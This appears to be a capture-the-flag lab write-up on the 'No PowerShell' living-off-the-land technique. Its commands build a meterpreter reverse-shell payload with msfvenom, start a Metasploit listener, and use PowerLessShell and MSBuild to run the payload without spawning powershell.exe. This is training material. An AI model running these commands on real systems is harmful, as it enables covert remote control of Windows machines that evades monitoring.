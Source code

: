 Now that we have the payload ready, change to the PowerLessShell directory project to convert the payload to be compatible with the MSBuild tool. Then run the PowerLessShell tool and set the source file to the one we created with msfvenom as follows:

```
user@machine$ python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj
```

Once the command is executed successfully, we need to transfer the output file to the Windows machine. You can do this using the SCP command or set a web server to host the file on the AttackBox (python3 -m http.server 1337) and download the file using the browser.

Finally, on the target Windows machine, build the .csproj file and wait for the reverse shell!

![task7-cmd](./images/task7-cmd.png)

Once we run the MSBuild command, wait a couple of seconds till we receive a reverse shell. Note that there will be no `powershell.exe` process is running.

### Answer the questions below

* Replicate the steps of the No PowerShell technique to receive a reverse shell on port `4444`. Once a connection is established, a flag will be created automatically on the desktop. What is the content of the flag file?

	* Create payload
	
		```
		msfvenom -p windows/meterpreter/reverse_winhttps LHOST=10.17.127.223 LPORT=4444 -f psh-reflection > liv0ff.ps1
		```

		![task7-payload](./images/task7-payload.png)

	* Create Listener on Attacker machine
	
		```
		msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost 10.17.127.223;set lport 4444;exploit"
		```

		![task7-listener](./images/task7-listener)

	* Run PowerLessShell
	
		```
		python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output /tmp/liv0ff.csproj
		```
